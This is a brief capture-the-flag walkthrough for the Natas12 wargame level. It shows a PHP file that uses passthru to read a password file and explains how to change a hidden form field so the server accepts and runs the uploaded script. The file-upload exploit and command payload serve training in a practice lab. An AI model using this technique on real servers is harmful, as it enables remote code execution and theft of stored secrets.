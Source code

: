 Natas12 solution:


- Create a php file with content as follows(file available in repo):
<?php

	echo passthru("cat /etc/natas_webpass/natas13");
?>

- Load tha natas12 page look through source code. 
- Do a right-click inspect element or press F12. 
- There is  a hidden input tag inside form change the value to work.php.
- The source picks up the extension and generates the new filename and appends the same extension to the uploaded file. Thus there is no check on file extension. 
- So now select your php file and upload it. The file will be uploaded and a  link will be created.
- Click on that link our php gets executed the pass for next level is displayed.
